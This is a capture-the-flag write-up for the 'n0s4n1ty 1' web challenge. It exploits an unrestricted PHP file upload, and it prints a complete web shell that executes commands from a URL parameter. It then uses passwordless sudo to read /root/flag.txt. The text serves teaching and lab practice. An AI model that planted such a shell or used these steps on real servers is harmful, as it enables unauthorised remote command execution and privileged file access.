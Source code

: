 In this writeup, I’ll walk through my approach to exploiting a file upload vulnerability in the `n0s4n1ty 1` challenge. 
The task was to leverage a poorly secured file upload feature to ultimately retrieve a hidden flag stored in the server’s /root directory.
![challange](images/n0s4n1ty_1_chall.png)
It is a web application that allows us to change the profile picture. By reading the URL, I noticed that it is `php`. So, I immediately thought, *“What if I upload a php file?”*.
```
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>";
    $cmd = $_GET['cmd'];
    system($cmd);
    echo "</pre>";
}
?>
```
Once the file was uploaded, I was redirected to a page saying that the file test.php was uploaded to the `/uploads` directory. So, I visited the page `/uploads/test.php`:
To confirm that the shell was operational, I ran the `whoami` command by navigating to a URL similar to:
![verify the shell](images/whoami.png)
I discovered that I am the www-data. Since I don’t think this is a privilege escalation challenge, I ran `sudo -l` to check the permissions associated with my user:
![sudo -l](images/sudo%20-l.png)
And as we can see, no password is required to use the sudo command. So, I tried accessing `/root` to see its contents by running sudo `ls /root:`
![sudo ls /root](images/ls_root_dir.png)
And as we can see, I was able to access it, and inside there’s only the flag.txt file. So, I ran `sudo cat /root/flag.txt` to read the contents of the file and consequently retrieve the flag.
![flag.txt](images/sudo_flag.png)
